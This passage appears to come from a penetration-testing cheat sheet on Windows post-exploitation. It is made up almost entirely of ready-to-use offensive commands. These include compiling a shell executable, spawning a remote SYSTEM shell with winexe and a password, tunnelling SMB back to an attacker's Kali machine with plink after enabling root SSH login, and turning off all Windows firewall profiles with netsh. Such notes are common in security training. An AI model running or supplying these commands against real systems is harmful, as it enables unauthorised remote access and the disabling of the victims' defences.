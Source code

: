 ```
x86_64-w64-mingw32-gcc shell.c -o shell.exe
```
3. Compile for 32 bit
```
i686-w64-mingw32-gcc shell.c -o shell.exe
```




## Use winexe

In kali there is winexe tool that allows running remote commands on windows

```bash
#to spawn remote cmd SYSTEM shell
winexe -U 'admin%password123' --system //192.168.1.xxx cmd.exe
```

## Port Forwarding from Windows

* Sometimes internal vulnerable ports need to be forwarded to Kali. For example for port 445 with SMB
* use `plink.exe`
* on kali enable root login on ssh `vim /etc/ssh/sshd_config` PermitRootLogin yes. Then `service ssh restart`
* ssh must be running
* Run forwarding `plink.exe root@192.168.1.10 -R 445:127.0.0.1:445` where first port is dest and second is source and ip source,
* now  use any tools and target `127.0.0.1:445` on kali machine like `winexe`


# Firewall

* Shut off firewall
`netsh advfirewall set allprofiles state off`

* Get all FW rules

`Get-NetFirewallRule`

Or more refinded

```
Direction Outbound - limit to outbound rules since that’s where I’m having issues
Action Block - limit to rules that block traffic
Enabled True - don’t show the large set of rules that are present but not enabled
```

* Get firewall rules for blocking outbound

```
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```
